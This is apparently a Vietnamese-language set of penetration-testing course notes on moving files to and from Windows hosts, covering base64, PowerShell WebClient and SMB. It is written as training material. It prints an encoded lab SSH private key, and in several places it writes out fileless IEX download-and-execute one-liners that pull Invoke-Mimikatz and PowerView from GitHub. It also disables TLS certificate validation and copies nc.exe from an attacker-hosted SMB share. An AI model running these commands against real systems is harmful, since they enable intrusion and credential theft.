

# Windows File Transfer Methods

```ini
                Windows File Transfer Methods
                           │
        ┌──────────────────┴──────────────────┐
        │                                     │
 Download (Host → Windows)          Upload (Windows → Host)
        │                                     │
        ├── Base64                     ├── Base64
        ├── PowerShell DownloadFile    ├── Web Upload
        ├── SMB                        ├── SMB
        └── FTP                        └── FTP
```


# Download Operations

## PowerShell Base64 Encode & Decode - Không cần kết nối mạng 

Mã hóa tập tin -> base64 -> chuyển đến host 

DÙng MD5 để check hash 

### Pwnbox Check SSH Key MD5 Hash

check hash 

```bash
reDrose18@htb[/htb]$ md5sum id_rsa

4e301756a07ded0a2dd6953abf015278  id_rsa
```

### Pwnbox Encode SSH Key to Base64

endcode 

```bash
reDrose18@htb[/htb]$ cat id_rsa |base64 -w 0;echo

LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0KYjNCbGJuTnphQzFyWlhrdGRqRUFBQUFBQkc1dmJtVUFBQUFFYm05dVpRQUFBQUFBQUFBQkFBQUFsd0FBQUFkemMyZ3RjbgpOaEFBQUFBd0VBQVFBQUFJRUF6WjE0dzV1NU9laHR5SUJQSkg3Tm9Yai84YXNHRUcxcHpJbmtiN2hIMldRVGpMQWRYZE9kCno3YjJtd0tiSW56VmtTM1BUR3ZseGhDVkRRUmpBYzloQ3k1Q0duWnlLM3U2TjQ3RFhURFY0YUtkcXl0UTFUQXZZUHQwWm8KVWh2bEo5YUgxclgzVHUxM2FRWUNQTVdMc2JOV2tLWFJzSk11dTJONkJoRHVmQThhc0FBQUlRRGJXa3p3MjFwTThBQUFBSApjM05vTFhKellRQUFBSUVBeloxNHc1dTVPZWh0eUlCUEpIN05vWGovOGFzR0VHMXB6SW5rYjdoSDJXUVRqTEFkWGRPZHo3CmIybXdLYkluelZrUzNQVEd2bHhoQ1ZEUVJqQWM5aEN5NUNHblp5SzN1Nk40N0RYVERWNGFLZHF5dFExVEF2WVB0MFpvVWgKdmxKOWFIMXJYM1R1MTNhUVlDUE1XTHNiTldrS1hSc0pNdXUyTjZCaER1ZkE4YXNBQUFBREFRQUJBQUFBZ0NjQ28zRHBVSwpFdCtmWTZjY21JelZhL2NEL1hwTlRsRFZlaktkWVFib0ZPUFc5SjBxaUVoOEpyQWlxeXVlQTNNd1hTWFN3d3BHMkpvOTNPCllVSnNxQXB4NlBxbFF6K3hKNjZEdzl5RWF1RTA5OXpodEtpK0pvMkttVzJzVENkbm92Y3BiK3Q3S2lPcHlwYndFZ0dJWVkKZW9VT2hENVJyY2s5Q3J2TlFBem9BeEFBQUFRUUNGKzBtTXJraklXL09lc3lJRC9JQzJNRGNuNTI0S2NORUZ0NUk5b0ZJMApDcmdYNmNoSlNiVWJsVXFqVEx4NmIyblNmSlVWS3pUMXRCVk1tWEZ4Vit0K0FBQUFRUURzbGZwMnJzVTdtaVMyQnhXWjBNCjY2OEhxblp1SWc3WjVLUnFrK1hqWkdqbHVJMkxjalRKZEd4Z0VBanhuZEJqa0F0MExlOFphbUt5blV2aGU3ekkzL0FBQUEKUVFEZWZPSVFNZnQ0R1NtaERreWJtbG1IQXRkMUdYVitOQTRGNXQ0UExZYzZOYWRIc0JTWDJWN0liaFA1cS9yVm5tVHJRZApaUkVJTW84NzRMUkJrY0FqUlZBQUFBRkhCc1lXbHVkR1Y0ZEVCamVXSmxjbk53WVdObEFRSURCQVVHCi0tLS0tRU5EIE9QRU5TU0ggUFJJVkFURSBLRVktLS0tLQo=
```

Chúng ta có thể sao chép nội dung này và dán vào cửa sổ dòng lệnh Windows PowerShell, sau đó sử dụng một số hàm PowerShell để giải mã nó.

```bash
PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0KYjNCbGJuTnphQzFyWlhrdGRqRUFBQUFBQkc1dmJtVUFBQUFFYm05dVpRQUFBQUFBQUFBQkFBQUFsd0FBQUFkemMyZ3RjbgpOaEFBQUFBd0VBQVFBQUFJRUF6WjE0dzV1NU9laHR5SUJQSkg3Tm9Yai84YXNHRUcxcHpJbmtiN2hIMldRVGpMQWRYZE9kCno3YjJtd0tiSW56VmtTM1BUR3ZseGhDVkRRUmpBYzloQ3k1Q0duWnlLM3U2TjQ3RFhURFY0YUtkcXl0UTFUQXZZUHQwWm8KVWh2bEo5YUgxclgzVHUxM2FRWUNQTVdMc2JOV2tLWFJzSk11dTJONkJoRHVmQThhc0FBQUlRRGJXa3p3MjFwTThBQUFBSApjM05vTFhKellRQUFBSUVBeloxNHc1dTVPZWh0eUlCUEpIN05vWGovOGFzR0VHMXB6SW5rYjdoSDJXUVRqTEFkWGRPZHo3CmIybXdLYkluelZrUzNQVEd2bHhoQ1ZEUVJqQWM5aEN5NUNHblp5SzN1Nk40N0RYVERWNGFLZHF5dFExVEF2WVB0MFpvVWgKdmxKOWFIMXJYM1R1MTNhUVlDUE1XTHNiTldrS1hSc0pNdXUyTjZCaER1ZkE4YXNBQUFBREFRQUJBQUFBZ0NjQ28zRHBVSwpFdCtmWTZjY21JelZhL2NEL1hwTlRsRFZlaktkWVFib0ZPUFc5SjBxaUVoOEpyQWlxeXVlQTNNd1hTWFN3d3BHMkpvOTNPCllVSnNxQXB4NlBxbFF6K3hKNjZEdzl5RWF1RTA5OXpodEtpK0pvMkttVzJzVENkbm92Y3BiK3Q3S2lPcHlwYndFZ0dJWVkKZW9VT2hENVJyY2s5Q3J2TlFBem9BeEFBQUFRUUNGKzBtTXJraklXL09lc3lJRC9JQzJNRGNuNTI0S2NORUZ0NUk5b0ZJMApDcmdYNmNoSlNiVWJsVXFqVEx4NmIyblNmSlVWS3pUMXRCVk1tWEZ4Vit0K0FBQUFRUURzbGZwMnJzVTdtaVMyQnhXWjBNCjY2OEhxblp1SWc3WjVLUnFrK1hqWkdqbHVJMkxjalRKZEd4Z0VBanhuZEJqa0F0MExlOFphbUt5blV2aGU3ekkzL0FBQUEKUVFEZWZPSVFNZnQ0R1NtaERreWJtbG1IQXRkMUdYVitOQTRGNXQ0UExZYzZOYWRIc0JTWDJWN0liaFA1cS9yVm5tVHJRZApaUkVJTW84NzRMUkJrY0FqUlZBQUFBRkhCc1lXbHVkR1Y0ZEVCamVXSmxjbk53WVdObEFRSURCQVVHCi0tLS0tRU5EIE9QRU5TU0ggUFJJVkFURSBLRVktLS0tLQo="))
```

### Confirming the MD5 Hashes Match

check lại md5 

```bash
PS C:\htb> Get-FileHash C:\Users\Public\id_rsa -Algorithm md5

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             4E301756A07DED0A2DD6953ABF015278                                       C:\Users\Public\id_rsa
```

Lưu ý: Mặc dù phương pháp này tiện lợi, nhưng không phải lúc nào cũng có thể sử dụng được. Tiện ích dòng lệnh Windows (cmd.exe) có độ dài chuỗi tối đa là 8.191 ký tự. Ngoài ra, web shell có thể báo lỗi nếu bạn cố gắng gửi các chuỗi quá dài.

## PowerShell Web Downloads 

PowerShell cung cấp nhiều tùy chọn để tải tập tin. Trong bất kỳ phiên bản PowerShell nào, lớp `System.Net.WebClient` đều có thể được sử dụng để tải xuống tập tin qua `HTTP`, `HTTPS` hoặc `FTP`. Bảng sau mô tả các phương thức của WebClient để tải xuống dữ liệu từ một tài nguyên:

| Method                  | Mô tả                                                                                                                    |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------------ |
| **OpenRead**            | Mở kết nối đến tài nguyên và trả về dữ liệu dưới dạng **Stream** để đọc.                                                 |
| **OpenReadAsync**       | Tương tự `OpenRead` nhưng thực hiện **bất đồng bộ (Asynchronous)**, không chặn luồng đang chạy.                          |
| **DownloadData**        | Tải dữ liệu từ một tài nguyên và trả về dưới dạng **mảng byte (`byte[]`)**.                                              |
| **DownloadDataAsync**   | Tải dữ liệu và trả về **mảng byte (`byte[]`)** theo cơ chế bất đồng bộ, không chặn luồng.                                |
| **DownloadFile**        | Tải dữ liệu từ một tài nguyên và **lưu trực tiếp vào một file trên máy cục bộ**.                                         |
| **DownloadFileAsync**   | Tương tự `DownloadFile` nhưng thực hiện bất đồng bộ, không chặn luồng.                                                   |
| **DownloadString**      | Tải nội dung từ một tài nguyên và trả về dưới dạng **chuỗi (`String`)**. Thường dùng để lấy nội dung HTML, JSON, XML,... |
| **DownloadStringAsync** | Tải nội dung dưới dạng **chuỗi (`String`)** theo cơ chế bất đồng bộ, không chặn luồng thực thi.                          |


1 số ví dụ 


### PowerShell DownloadFile Method

Chúng ta có thể chỉ định tên lớp `Net.WebClient` và phương thức DownloadFile với các tham số tương ứng với URL của tệp mục tiêu cần tải xuống và tên tệp đầu ra.

File Download

```bash
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```

### PowerShell DownloadString - Fileless Method

các cuộc tấn công không dùng tập tin hoạt động bằng cách sử dụng một số chức năng của hệ điều hành để tải xuống mã độc và thực thi trực tiếp.

PowerShell cũng có thể được sử dụng để thực hiện các cuộc tấn công không cần tệp. Thay vì tải xuống một script PowerShell vào ổ đĩa, chúng ta có thể chạy trực tiếp nó trong bộ nhớ bằng cách sử dụng cmdlet Invoke-Expression hoặc bí danh IEX.

```bash
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

IEX cũng chấp nhận dữ liệu đầu vào từ pipeline.

```bash
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

### PowerShell Invoke-WebRequest

Từ PowerShell 3.0 trở đi, cmdlet Invoke-WebRequest cũng có sẵn, nhưng tốc độ tải xuống tệp chậm hơn đáng kể. Bạn có thể sử dụng các aliases `iwr`, `curl` và `wget` thay vì tên đầy đủ Invoke-WebRequest.

```bash
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

### Các lỗi thường gặp với PowerShell

Có thể xảy ra trường hợp cấu hình khởi chạy lần đầu của Internet Explorer chưa hoàn tất, dẫn đến việc không thể tải xuống.



Có thể bỏ qua bước này bằng cách sử dụng tham số `-UseBasicParsing`.

```bash
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

Một lỗi khác trong quá trình tải xuống bằng PowerShell liên quan đến kênh bảo mật SSL/TLS nếu chứng chỉ không được tin cậy. Chúng ta có thể khắc phục lỗi đó bằng lệnh sau:

```bash
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

## SMB Downloads

Chúng ta cần tạo một máy chủ SMB trong Pwnbox bằng [`smbserver.py`](https://github.com/fortra/impacket/blob/master/examples/smbserver.py) từ Impacket và sau đó sử dụng các công cụ như `copy`, `move`, PowerShell `Copy-Item` hoặc bất kỳ công cụ nào khác cho phép kết nối với SMB.

### Tạo SMB Server

```bash
reDrose18@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Để tải xuống một tập tin từ máy chủ SMB vào thư mục làm việc hiện tại, ta có thể sử dụng lệnh sau:

### Copy a File from the SMB Server

```bash
C:\htb> copy \\192.168.220.133\share\nc.exe

        1 file(s) copied.
```

Các phiên bản Windows mới chặn quyền truy cập khách không được xác thực, như ta có thể thấy trong lệnh sau:

```bash
C:\htb> copy \\192.168.220.133\share\nc.exe

You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
```

Để truyền tải tập tin trong trường hợp này, chúng ta có thể thiết lập tên người dùng và mật khẩu bằng máy chủ SMB Impacket và gắn kết máy chủ SMB vào máy tính đích chạy hệ điều hành Windows: